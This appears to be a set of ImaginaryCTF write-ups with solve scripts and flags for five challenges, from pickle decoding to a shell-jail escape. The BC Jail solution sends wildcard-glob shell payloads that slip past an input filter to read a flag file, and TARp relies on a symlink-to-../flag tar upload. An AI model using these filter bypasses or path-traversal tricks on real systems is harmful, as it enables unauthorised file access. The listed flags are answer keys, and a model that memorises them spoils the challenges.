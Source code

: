 # Pickle

## Description 

This pickle seems to be hiding the flag...

## Attachments

`https://imaginaryctf.org/f/1O5dx`

## Solution 

Python pickle module is used for serializing and de-serializing a Python object structure. Any object in Python can be pickled so that it can be saved on disk. What pickle does is that it “serializes” the object first before writing it to file. Pickling is a way to convert a python object (list, dict, etc.) into a character stream. The idea is that this character stream contains all the information necessary to reconstruct the object in another python script.

Here in this file there is class `FlagPrinter` in which the flag is stored in it's ASCII codes.

script

```
import pickle

f = open('out.pickle', 'rb')

class FlagPrinter:
    pass


db = pickle.load(f)
print(''.join(chr(x) for x in db.flag))

```

## flag

`ictf{cucumbers_or_pickles?}`

<br>

# Self Referencing

## Description

I recently learned that python lists can contain themselves. Here's a whole bunch of such lists - do they also contain a flag?

## Attachments

`https://imaginaryctf.org/f/LrX5f#out.pickle`

## Solution

The given pickle file contains a self referencing list.

The list contains a reference to itself. Here most of the lists just refer back to themselves, but some of them point to other lists in the bigger list. Tracing the indices of these lists through the loop gives the flag.

script

```
from pickle import load

chars = load(open('out.pickle', 'rb'))

start = chars[ord('i')]
lis = []

isFirst = True

while isFirst or start is not chars[ord('i')]:
    isFirst = False
    for i in range(128):
        if chars[i] is start:
            lis.append(i)
            break
    start = start[0]


print(''.join(chr(x) for x in lis))
```

## flag

`ictf{sphInx_oF-blaCk=qu@rTz~jUdge+my^v0w}`

<br>

# TARp

## Description

It helps to have a rain tarp when there's bad weather.

## Attachments

`https://imaginaryctf.org/f/tiUxj#server.py` 
`nc puzzler7.imaginaryctf.org 3005`

## Solution

The easiest that we can do here is to send a tar archive of symlink linking `../flag` so that when we try to read the file, it points to flag file.

## flag

`ictf{is_it_still_a_zip_slip_if_we_use_a_tar_file?}`

<br>

# Flag Market

## Description

Just buy the flag! Be warned, they can be kind of pricy... You might have to work with other people to get the money. Be warned, though ... as soon as someone finally buys the flag, the price goes right back up to max!

## Attachments

`http://puzzler7.imaginaryctf.org:4009`

## Solution

We earn around 10 rooCash from multiple accounts each and bringing down the price of the flag.

When we have enough rooCash, we buy the flag.

## flag

`ictf{purchased_with_blood_sweat_and_t3ars}`

<br>

# BC Jail

## Description

We've had some hard jail challenges(nameless & stackless). Time for some easy jail!

Note: The flag is the name of the flag file + the contents of this file. The flag filename is 22 characters long.

## Attachments

`nc puzzler7.imaginaryctf.org 4008`

## Solution

As we can see in source code there is filtering in the input which allows only `bc?/ ` characters.

Thankfully `?` character can used as alternate character in UNIX systems.

script

```
import socket


def netcat(hostname, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    data = (s.recv(1024)).decode()
    print(data)
    data = (s.recv(1024)).decode()
    print(data)

    payload = b'/b??/?c?? '
    payload += b'?' * 22
    s.send(payload + b'\n')
    data = s.recv(1024)
    print(data)

    payload = b'/b??/c?? ??????????????????????'
    s.send(payload + b'\n')
    s.recv(1024)
    data = s.recv(1024)
    print(data)


netcat('puzzler7.imaginaryctf.org', 4008)
```

## flag

`ictf{bre4k1ng_7he_j41l_like_4_b0ss!}`